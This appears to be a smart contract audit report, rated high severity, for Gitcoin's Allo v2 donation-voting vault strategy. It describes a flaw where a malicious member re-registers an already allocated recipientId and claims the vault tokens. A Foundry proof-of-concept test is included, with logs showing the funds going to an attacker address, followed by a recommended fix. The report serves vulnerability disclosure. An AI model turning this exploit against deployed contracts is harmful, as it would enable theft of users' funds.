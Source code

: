 Deep Grape Narwhal

high

# Malicious member can claim token through an allocated RecipientId
## Summary
Issue similar to QVBaseStrategy.sol. A malicious member can register recipient with an already allocated recipientId ，and then steal tokens from vault

## Vulnerability Detail

## Proof of Concept
1.  Add the following test_claim_poc()  to  the DonationVotingMerkleDistributionVaultStrategy.t.sol
```solidity 
function test_claim_poc() public{

        address recipientId=  __mregister_recipient();
        vm.warp(allocationEndTime + 1 days);
        DonationVotingMerkleDistributionVaultStrategy.Claim[] memory claim =
            new DonationVotingMerkleDistributionVaultStrategy.Claim[](1);
        claim[0] = DonationVotingMerkleDistributionVaultStrategy.Claim({recipientId: recipientId, token: NATIVE});

       
        _strategy.claim(claim);

        console.log("-----------------after claimed---------------");
        console.log("profile1_member2(Malicious) recipientAddress balance after claimed:",attack().balance);
        console.log("profile1_member1 recipientAddress balance after claimed:",recipientAddress().balance);
    }
```

2.Add the following  __mregister_recipient()  and   attack() to the DonationVotingMerkleDistributionBase.t.sol

```solidity
function __mregister_recipient() public returns(address samerecipientId){
        
        address recipientId = __register_accept_recipient_allocate();
        //just for log
        DonationVotingMerkleDistributionBaseStrategy.Recipient memory recipients = strategy.getRecipient(recipientId);
        console.log("profile1_member1",recipientId);
        console.log("profile1_member1 recipientaddress:",recipients.recipientAddress);
        console.log("profile1_member1 recipientaddress balance:",recipients.recipientAddress.balance);
        vm.warp(registrationStartTime + 10);

        vm.prank(address(allo()));
//profile1_member2（Malicious members） 
// Register recipient using the RecipientId(eg:profile1_anchor()) that has been  allocated
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(profile1_anchor(), attack(), metadata);

        samerecipientId = strategy.registerRecipient(data, profile1_member2());
        DonationVotingMerkleDistributionBaseStrategy.Recipient memory recipient = strategy.getRecipient(samerecipientId);
        console.log("----------------------------------------------");
        console.log("profile1_member2(Malicious):",samerecipientId);
        console.log("profile1_member2(Malicious) recipientAddress:",recipient.recipientAddress);
        console.log("profile1_member2(Malicious) recipientAddress balance:",recipient.recipientAddress.balance);
    }
  //Malicious recipientAddress
    function attack() public returns (address) {
        return makeAddr("attack");
    }
```

3.Run   forge test -vv --match-path test/foundry/strategies/DonationVotingMerkleDistributionVaultStrategy.t.sol --match-contract DonationVotingMerkleDistributionVaultStrategy --match-test test_claim_poc
```solidity
[PASS] test_claim_poc() (gas: 392305)
Logs:
  profile1_member1 0xad5FDFa74961f0b6F1745eF0A1Fa0e115caa9641
  profile1_member1 recipientaddress: 0x7b6d3eB9bb22D0B13a2FAd6D6bDBDc34Ad2c5849
  profile1_member1 recipientaddress balance: 0
  ----------------------------------------------
  profile1_member2(Malicious): 0xad5FDFa74961f0b6F1745eF0A1Fa0e115caa9641
  profile1_member2(Malicious) recipientAddress: 0x035731A5BC3771c28077f08a1A72959366C0F700
  profile1_member2(Malicious) recipientAddress balance: 0
  -----------------after claimed---------------
  profile1_member2(Malicious) recipientAddress balance after claimed: 1000000000000000000
  profile1_member1 recipientAddress balance after claimed: 0
```

## Impact
leading to loss of funds for vault
Affects the fairness of protocol

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L528

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/donation-voting-merkle-distribution-vault/DonationVotingMerkleDistributionVaultStrategy.sol#L70

## Tool used
Manual Review

## Recommendation
Lock already allocated recipientId ,add  verification process in RegisterRecipient().
If this issue is valid, then the registerRecipient() function of other contracts has the same issue, please verify carefully.
